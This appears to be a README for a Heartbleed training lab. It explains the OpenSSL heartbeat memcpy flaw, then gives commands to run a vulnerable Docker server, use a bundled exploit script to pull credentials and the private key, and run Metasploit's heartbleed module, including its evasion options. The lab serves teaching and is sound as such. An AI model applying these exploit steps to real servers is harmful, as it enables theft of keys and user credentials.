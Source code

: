 # Heartbleed Example

## Additional info

**Format of the Heartbeat request/response packet**

```c
struct {
    HeartbeatMessageType type;  // 1 byte: request or the response
    uint16 payload_length;      // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
```

The first field (1 byte) of the packet is the type information, and the second field (2 bytes) is the payload length, followed by the actual payload and paddings. The size of the payload should be the same as the value in the payload length field, but in the attack scenario, payload length can be set to a different value. The following code snippet shows how the server copies the data from the request packet to the response packet.

**Process the Heartbeat request packet and generate the response packet**

```c
/* Allocate memory for the response, size is 1 byte
 * message type, plus 2 bytes payload length, plus
 * payload, plus padding
*/

unsigned int payload;
unsigned int padding = 16; /* Use minimum padding */

// Read from type field first
hbtype = *p++; /* After this instruction, the pointer
                * p will point to the payload_length field */

// Read from the payload_length field from the request packet
n2s(p, payload); /* Function n2s(p, payload) reads 16 bits
                  * from pointer p and store the value
                  * in the INT variable "payload". */

pl = p; // pl points to the beginning of the payload content

if (hbtype == TLS1_HB_REQUEST)
{
    unsigned char *buffer, *bp;
    int r;

    /* Allocate memory for the response, size is 1 byte
     * message type, plus 2 bytes payload length, plus
     * payload, plus padding
     */

    buffer = OPENSSL_malloc(1 + 2 + payload + padding);
    bp = buffer;

    // Enter response type, length and copy payload *bp++ = TLS1_HB_RESPONSE;
    s2n(payload, bp);

    // copy payload
    memcpy(bp, pl, payload);   /* pl is the pointer which
                                * points to the beginning
                                * of the payload content */
    bp += payload;

    // Random padding
    RAND_pseudo_bytes(bp, padding);

    // this function will copy the 3+payload+padding bytes
    // from the buffer and put them into the heartbeat response
    // packet to send back to the request client side.
    OPENSSL_free(buffer);
    r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);
}
```

**The vulnerability lies here**

```c
    // copy payload
    memcpy(bp, pl, payload);
```

There is no check to determine if `pl` is valid or not. Therefore, a memory breach can occur.

## Requirements and instalation

* Docker
* Metasploit
* Python 2
```shell
sudo apt-get update
sudo apt-get install -y python2-dev docker.io metasploit-framework curl
```
* Python 2 packages
```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output /tmp/get-pip.py
sudo python2 /tmp/get-pip.py
pip install --upgrade setuptools
pip install gmpy pyasn1
```
## Docker Setup

```shell
docker pull docker.io/andrewmichaelsmith/docker-heartbleed
```
## Clone Repository

```shell
git clone https://github.com/okrutnik420/heartbleed.git &&
cd heartbleed &&
chmod 755 *
```

## Run the container

On a terminal window, run the command:

```shell
sudo docker run -it -p 127.0.0.1:443:443 andrewmichaelsmith/docker-heartbleed bash
```

This command will execute bash in conatiner and map host adress 127.0.0.1:443 to local conatiner adress on port 443

Type exit to exit container


## Run the server
inside contrainer run"
```shell
apache2ctl -D FOREGROUND
```
You can access server via https://127.0.0.1
(unfortunetly this is default website for old version of apache2)

## Stimulate the server

Before exploiting, you must stimulate the server with potentially sensitive data
that can be harvested later by the exploit. The `stimulate_server.py` script
does that, sending random credentials to the server via HTTP POST requests. The
following is its usage and options:

```shell
Usage: stimulate_server.py [-a server_address] [-t sleep]
```
## Excercise 1: Get to know server

* Using nmap check if server is vulnerable
```shell
sudo nmap -p 443 --script ssl-heartbleed 127.0.0.1
```

* If you wish to run another instance of bash inside container do:
```shell
sudo docker ps -a 
sudo docker exec -it <id> /bin/bash
```
* View certificate
```hint
Inspect Dockerfile to check how server was set up
```
* Check openssl version

## Excercise 2 Exploit using script

This repo includes heartbleed.py script (in python2)

```shell
chmod 755 heartbleed.py
./heartbleed.py -h
```

* using script try to extract some sensitive data
* set verbose option analize how script executes
* try to steal server private key and certificate

To populate server memory with keys run:
```shell
watch 'cat /etc/apache2/ssl/apache.crt ; cat /etc/apache2/ssl/apache.key'

```

## Excersice 3 Exploit using metaspoit

### Start the Metasploit console
```shell
sudo msfconsole
```

### Search Heartbleed module by using built in search feature in Metasploit framework
```shell
search heartbleed
```

### Load the heartbleed by module
```shell
use auxiliary/scanner/ssl/openssl_heartbleed
```

### After loading the auxiliary module, extract the info page to reveal the options to set the target
```shell
show info
```

### This is a list of all auxiliary actions that the scanner/ssl/openssl_heartbleed module can do:
```shell
show actions
```

### Here is a complete list of advanced options supported by the scanner/ssl/openssl_heartbleed auxiliary module:
```shell
show advanced
```

### To view full list of possible evasion options supported by the scanner/ssl/openssl_heartbleed auxiliary module in order to evade defenses:
```shell
show evasion
```

* Explore Options

